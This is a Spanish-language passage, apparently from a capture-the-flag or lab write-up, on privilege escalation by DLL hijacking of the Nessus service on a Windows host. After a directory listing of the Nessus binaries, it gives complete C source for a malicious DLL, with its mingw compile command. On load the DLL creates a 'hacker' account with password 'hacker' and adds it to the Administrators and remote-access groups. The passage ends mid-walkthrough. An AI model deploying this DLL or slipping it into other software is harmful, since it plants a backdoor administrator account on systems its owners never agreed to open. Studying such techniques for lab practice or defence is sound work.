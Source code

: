 ```
-a----          5/9/2024  11:06 PM             46 Nessus Web Client.url
-a----          5/9/2024  11:33 PM          38520 nessus-service.exe
-a----          5/9/2024  11:37 PM       11143800 nessuscli.exe
-a----          5/9/2024  11:38 PM       11925624 nessusd.exe
```

Veremos que podemos listar y entrar dentro de la carpeta `Nessus` junto con las `.dll` etc... Llegados a este punto lo que se nos puede ocurrir es realizar un secuestro de `DLL` contra el servicio de `Nessus`.

### DLL Hijacking (Nessus Service)

Vamos a crear un `.dll` que agregara un nuevo usuario como `administrador` en la máquina victima `Windows`.

> malicious.dll

```c
#include <stdlib.h>
#include <windows.h>

// COMPILE
// x86_64-w64-mingw32-gcc adduser.c --shared -o adduser.dll

BOOL APIENTRY DllMain(
  HANDLE hModule,       // Handle to DLL module
  DWORD  ul_reason_for_call, // Reason for calling function
  LPVOID lpReserved)    // Reserved
{
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        // Ejecutar comandos para agregar un nuevo usuario y agregarlo a grupos específicos
        system("net user hacker hacker /add"); // Crea el usuario 'hacker' con la contraseña 'hacker'
        system("net localgroup administrators hacker /add"); // Añade el usuario 'hacker' al grupo 'Administrators'
        system("net localgroup 'Remote Management Users' hacker /add"); // Añade al grupo 'Remote Management Users'
        system("net localgroup 'Remote Desktop Users' hacker /add"); // Añade al grupo 'Remote Desktop Users'
        break;
    case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
    case DLL_THREAD_DETACH: // A thread exits normally.
        break;
    case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

Ahora vamos a movernos a la carpeta:

